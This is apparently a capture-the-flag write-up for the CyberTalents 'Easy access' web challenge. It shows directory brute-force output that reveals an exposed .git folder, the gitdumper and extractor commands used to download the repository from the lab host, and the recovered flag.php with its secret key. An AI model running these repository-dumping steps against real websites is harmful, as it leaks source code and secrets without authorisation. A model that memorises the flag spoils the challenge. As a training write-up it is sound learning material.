 # Solve Easy access
### https://cybertalents.com/challenges/web/easy-access

![alt text](image.png)

### Try to access flag.php
![alt text](image-1.png)

### Run Directory bruteforce

output
```bash
301 -  417B  - /.git  
200 -  635B  - /.git/                                            
200 -  266B  - /.git/COMMIT_EDITMSG                              
200 -  196B  - /.git/config
200 -   73B  - /.git/description
200 -   23B  - /.git/HEAD
200 -  677B  - /.git/hooks/                                      
200 -  209B  - /.git/index                                       
200 -  499B  - /.git/info/                                       
200 -  240B  - /.git/info/exclude
200 -  521B  - /.git/logs/                                       
200 -  148B  - /.git/logs/HEAD                                   
200 -  148B  - /.git/logs/refs/heads/master                      
301 -  427B  - /.git/logs/refs  
301 -  433B  - /.git/logs/refs/heads  
200 -  548B  - /.git/objects/                                    
200 -  505B  - /.git/refs/                                       
301 -  428B  - /.git/refs/heads  
200 -   41B  - /.git/refs/heads/master
301 -  427B  - /.git/refs/tags 
200 -  107B  - /flag.php  
```

### Download all git files with gettools
1. dump all git files  
```bash
./gitdumper.sh http://wcamxwl32pue3e6meg23gmgi834kj6zqdkgxu639-web.cybertalentslabs.com/.git/ /home/m_1337/CyberTalents/Web/MaximumCourage/git
```
2. extract source files 
```bash
./extractor.sh /home/m_1337/CyberTalents/Web/MaximumCourage/git /home/m_1337/CyberTalents/Web/MaximumCourage/git
```

### Read the [flag.php](git/flag.php) file
```php
You can't view this flag directly.
<!-- PHP source doesn't appear on HTML comments -->
<?php
exit();
die();
$secret_key = 'be607453caada6a05d00c0ea0057f733';
?>   
```

>Find More on ==> github.com/MedhatHassan 